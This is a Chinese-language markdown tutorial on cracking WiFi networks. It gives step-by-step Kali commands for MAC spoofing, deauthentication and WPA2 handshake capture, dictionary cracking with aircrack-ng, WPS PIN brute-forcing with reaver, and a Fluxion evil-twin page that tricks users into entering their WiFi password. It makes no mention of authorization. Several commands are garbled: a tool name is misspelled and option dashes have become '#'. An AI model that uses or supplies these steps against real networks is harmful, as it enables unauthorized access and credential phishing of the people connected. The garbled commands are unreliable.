 ## 无线网络安全, 破解WiFi密码

- [无线网络安全, 破解WiFi密码](#无线网络安全-破解wifi密码)
  - [1.Aircrack-ng套件](#1aircrack-ng套件)
    - [1.1.连接MAC地址绑定的wifi](#11连接mac地址绑定的wifi)
    - [1.2.WPA2加密的wifi](#12wpa2加密的wifi)
    - [1.3.WEP加密的wifi](#13wep加密的wifi)
  - [2.路由器的PIN码破解](#2路由器的pin码破解)
  - [3.Fluxion工具(推荐)](#3fluxion工具推荐)

> !阅前须知!  
>> 本文是基于我很久以前学习网络基础时的笔记,  
>> 文中的工具可能已经过时, 或者使用方法已经改变了, 感兴趣可以自行深入查阅资料.  

```ps.本文环境在Kali下, 学习最好具备一点Linux基础知识.```  
```ps.本文中的'混杂模式'并不是所有网卡都支持, 详请搜索支持网卡型号.```  
```ps.本文第一节和第二节的方法受限于硬件配置等因素, 破解时间过长也是合理的.```  

### 1.Aircrack-ng套件

非常优秀的无线网络分析套件, 功能强大.  
许多安全软件套件都默认(添加/调用)此套件来完成操作.  

```bash
# 首先, 先要切换到能够支持'混杂模式'的网卡(一般都是购买USB无线网卡)
# 开启混杂模式(开启之后, 网卡名可能会改变)
> ifconfig (网卡名) down
> iwconfig (网卡名) mode monitor
> ifconfig (网卡名) up
```

#### 1.1.连接MAC地址绑定的wifi

```bash
# 查看附件网络中的wifi, 并观察其详细信息(channel、BSSID(MAC)等)
> airodump-ng (网卡名)

# 得知详细信息后, 可以停止查看(control + c / ctrl + c)
# 开始拿有效的mac地址信息(尽量等久点, 包多点)
> airodump-ng -c (信道channel) # bssid (BSSID(MAC) (网卡名)

# 拿到有效mac地址(不要拿到路由器的mac)
# 修改本机mac
> ifconfig (网卡名) down
> macchanger -m (MAC地址) (网卡名)
> ifconfig (网卡名) up

# 注意, 此方法拿到有效mac地址, 并未拿到wifi密码
```

#### 1.2.WPA2加密的wifi

```bash
# 查看附件网络中的wifi, 并观察其详细信息(channel、BSSID(MAC)等)
> airodump-ng (网卡名)

# 得知详细信息后, 可以停止查看(ctrl+c)
# 开始进行查看route与client的mac地址, [-w]选项的意思就是write
> airodump-ng -w wpa -c (信道channel) # bssid (BSSID(MAC) (网卡名) # ignore-negative-one

# 查看route与client的mac地址
# 开始获得握手包.cap
> airoplay-ng # deauth 10 -a (route的mac) -c (client的mac) (网卡名) # ignore-negative-one

# 对握手包.cap进行破解
aircrack-ng -w (指定字典) (cap握手包名)

# 字典可以自己制作(Crunch工具), 也可以在网上下载大神的字典
# 一个NB的字典, 对你的破解!事半功倍!
```

#### 1.3.WEP加密的wifi

```bash
# 由于这种加密基本已经舍弃了, 就不说了
```

### 2.路由器的PIN码破解

通过输入`PIN码`来连接wifi也是可以的, PIN码的破解也是一种不错的方法.  
常见的工具有`reaver`、`minidwep-gtk`等工具, 这里我就说下`reaver`工具.  

```bash
# 首先, 先要切换到能够支持'混杂模式'的网卡(一般都是购买USB无线网卡)
# 开启混杂模式(开启之后, 网卡名可能会改变)
> ifconfig (网卡名) down
> iwconfig (网卡名) mode monitor
> ifconfig (网卡名) up

# 选做:可以尝试扫描是否有启用WPS的wifi
# Wash工具就是一款针对'判断wifi是否启用WPS'的工具

# 查看附件网络中的wifi, 并观察PWR值小于70的来破解(记录BSSID, 记住要是路由器的)
> airodump-ng (网卡名)

# 开始进行破解(注意是路由器的MAC地址, PIN码是针对路由器的)
> reaver -i (网卡名) -b (路由器MAC地址) -a -S -vv

# 1.如果出现 warning fail to associate ...
# 则说明破解失败(失败原因包括对象路由器未开启WPS等)
# 2.提示给出了 PIN码 或 PIN码和PSK密钥(wifi密码)
# 则说明破解成功(记录PIN码)/(使用PSK密钥直接尝试连接wifi)

# 选做:可以尝试得到wifi密码(PIN码是可以连wifi)
> reaver -i (网卡名) -b (路由器MAC地址) -p (刚得到的PIN码)
```


### 3.Fluxion工具(推荐)

一个非常不错的社工破解wifi神器.  

与前面操作思路不同.  
它是通过模拟`原有wifi(FakeAP)`, 用户进行连接,  
然后wifi会断开网络, 并向连接用户发送请求(浏览器跳转页面), 请求输入原wifi密码,  
用户在收到请求后, 只需输入正确密码, wifi就会恢复网络, 而你获得wifi密码,  
注意, `Fluxion`会自动判断wifi密码是否正确, 从而做出下一步操作,  

ps.此方法的好处就是不用耗费资源去破解密码.  
ps.Fluxion运行时需要调用许多其它工具, 部分工具可能需要另行下载(运行时会提示有哪些未下载).  

```bash
# 运行软件(在软件目录下)
> ./fluxion

> 网卡(选择网卡)
> channels(选择所有信道)
> 扫描wifi(扫描到需要的结果时, 按ctrl+c)
> 选择wifi(输入1、2、3等选择)
# 建立一个假AP
> 选择攻击方式(选FakeAP-Hostapd...)
> 选择保存路径(可空格跳过, 则保存在桌面/root/Desktop/)
# 会自动出现窗口
> 握手包选择(aircrack-ng...)
# 抓包分配包
> 数据包分配(Deauth all)

# 若是以上步骤正确完成, 等抓包抓完, 会出现选择
> 选择web interface
> 选择语言(提示用户输入密码时的界面语言)

# 等待用户连接上网, 在浏览器输入正确密码(工具会自动验证密码是否正确), 工具就会自动停止
# 获得wifi正确密码
```

破解wifi可以说是比较有意思、并且有挑战性的一块知识点了,  
更多的无线攻防操作, 其实都是建立在连入局域网的前提之下的.  